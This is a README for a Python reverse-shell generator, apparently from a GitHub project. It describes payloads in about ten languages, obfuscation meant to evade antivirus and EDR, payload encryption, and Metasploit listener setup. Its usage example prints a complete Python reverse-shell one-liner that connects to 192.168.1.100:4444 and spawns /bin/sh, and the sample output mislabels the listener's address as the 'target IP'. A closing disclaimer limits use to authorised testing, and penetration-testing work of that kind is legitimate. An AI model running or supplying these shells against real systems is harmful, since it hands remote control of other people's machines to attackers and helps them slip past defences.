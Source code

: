 # README for Reverse Shell Generator

## Overview
This tool is a versatile reverse shell generator designed to assist cybersecurity professionals and ethical hackers in setting up reverse shells for penetration testing and red teaming activities. It supports multiple languages and includes features like Base64 encoding, shell obfuscation, and encryption to bypass security measures.

## Features
- **Multiple Reverse Shell Languages**: Supports Bash, Python, PHP, Perl, Ruby, PowerShell, Netcat, UDP Bash, HTTP Python, and ICMP Python.
- **Base64 Encoding**: Encodes the generated shell for easy transfer.
- **Shell Obfuscation**: Obfuscates the shell to bypass basic AV/EDR systems.
- **Encryption**: Encrypts the shell payload using AES or RSA encryption.
- **TTY Shell Upgrade**: Provides commands to upgrade the shell to a TTY shell.
- **Listener Setup**: Automatically sets up a listener using Metasploit or Netcat.

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/reverse-shell-generator.git
   cd reverse-shell-generator
   ```

2. Install the required dependencies (if any):
   ```bash
   pip install -r requirements.txt
   ```

## Usage
1. Run the script:
   ```bash
   python reverse_shell_generator.py
   ```

2. Follow the on-screen instructions to generate a reverse shell.

### Example
```bash
[*] Detected local OS: Linux

[*] Enter target IP: 192.168.1.100
[*] Enter target port: 4444

Available reverse shells:
1. bash
2. python
3. php
4. perl
5. ruby
6. powershell
7. nc
8. udp_bash
9. http_python
10. icmp_python

[*] Enter the reverse shell language/type (number): 2
[*] Do you want to Base64 encode the shell? (y/n): y
[*] Do you want to obfuscate the shell? (y/n): n
[*] Do you want to encrypt the shell communication (AES/RSA)? (aes/rsa/none): none

[+] Generated Reverse Shell for python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'

[*] Generate another reverse shell? (y/n): n
[*] Exiting...
```

## Configuration
- **Encryption**: The tool supports AES and RSA encryption. For RSA, ensure you have the `public_key.pem` file in the same directory.
- **Listener**: The tool uses Metasploit for setting up listeners. Ensure Metasploit is installed and properly configured.

## Dependencies
- Python 3.x
- Metasploit Framework (for listener setup)
- OpenSSL (for encryption)

## Contributing
Contributions are welcome! Please open an issue or submit a pull request.

## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This tool is intended for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Use this tool responsibly and only on systems you own or have explicit permission to test.

---

Thank you for using the Reverse Shell Generator! If you have any questions or need further assistance, please don't hesitate to contact us.
